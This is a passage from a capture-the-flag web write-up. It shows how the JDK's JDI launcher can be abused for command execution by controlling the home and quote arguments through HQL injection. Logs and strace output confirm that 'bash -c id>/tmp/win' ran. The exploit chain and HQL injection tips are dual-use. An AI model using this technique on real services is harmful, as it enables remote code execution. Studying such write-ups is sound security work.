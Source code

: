 And we can control it!

```java
String home = argument(ARG_HOME, arguments).value();
```

Sadly, whatever we put will be appended with `/bin/${exe}`. The value of `exe` comes from `vm_exec`

```java
String exe = argument(ARG_VM_EXEC, arguments).value();
```

Which, as was noted in the docs, we can't set. But it's not over yet! Going deeper, [tokenizeCommand](https://github.com/openjdk/jdk21/blob/890adb6410dab4606a4f26a942aed02fb2f55387/src/jdk.jdi/share/classes/com/sun/tools/jdi/AbstractLauncher.java#L70) tokenizes the command respecting a quote character that we control.

```java
String quote = argument(ARG_QUOTE, arguments).value();
```

**New plan: supply a custom ARG_QUOTE and ARG_HOME containing full RCE command abusing custom ARG_QUOTE to split it**

Ekhm, before we proceed, quick tl;dr for cancer HQL syntax:

- create new lists with `new list("a","b","c")`,
- create new maps with `new map("value1" as key1, "value2" as key2)`,
- you might have to do additional fucky-wacky to stop this bitch moaning about "syntax exceptions" and "The used SELECT statements have a different number of columns".

We're gonna use `^` as our `quote` character.

![alt text](/static/img/posts/2025-sekai-web-hqli-me/jdi_initiator_rce.webp)

Let's check the logs:

```
order_service-1  | Caused by: com.sun.jdi.connect.VMStartException: VM initialization failed for: bash -c id>/tmp/win /bin/java -Xdebug -Xrunjdwp:transport=dt_socket,address=localhost:41925,suspend=y,includevirtualthreads=n asdf 5
```

Let's check the output of strace:

```
[pid   150] execve("/usr/bin/bash", ["bash", "-c", "id>/tmp/win", "/bin/java", "-Xdebug", "-Xrunjdwp:transport=dt_socket,address=localhost:41925,suspend=y,includevirtualthreads=n", "asdf", "5"], ["HOSTNAME=kali", "LANGUAGE=en_US:en", "JAVA_HOME=/opt/java/openjdk", "PWD=/app", "PORT=1337", "HOME=/nonexistent", "LANG=en_US.UTF-8", "JRE_CACERTS_PATH=/opt/java/openjdk/lib/security/cacerts", "SHLVL=0", "LC_ALL=en_US.UTF-8", "PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", "JAVA_VERSION=jdk-21.0.8+9"]) = 0
```

Let's check the file system:

```
nobody@kali:/app$ cat /tmp/win
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
```
